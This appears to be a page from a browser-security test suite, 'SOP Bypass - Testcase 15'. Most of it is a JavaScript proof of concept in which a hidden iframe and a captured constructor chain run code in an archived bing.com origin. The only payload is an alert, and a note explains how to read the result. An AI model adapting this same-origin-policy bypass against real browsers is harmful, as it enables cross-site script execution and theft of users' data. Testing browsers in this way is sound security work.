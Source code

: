 ```yaml
---
layout: default
title: SOP Bypass - Testcase 15
permalink: /sop/new/15
---
```


# SOP Bypass - Testcase 15

<script>
function myfunction() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.width = "0px";
    frame.height = "0px";
    wnd = frame.contentWindow;
    func = wnd.Function;
    wnd.location = "about:blank";
    frame.onload = function() {
        selection = func("return getSelection()")();
        wnd.location = "https://web.archive.org/web/20180831134341/http://www.bing.com";
        frame.onload = function() {
            frame.onload = null;
            selection.baseNode.constructor.constructor.constructor("alert(document.domain)")();
        }
    }
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.
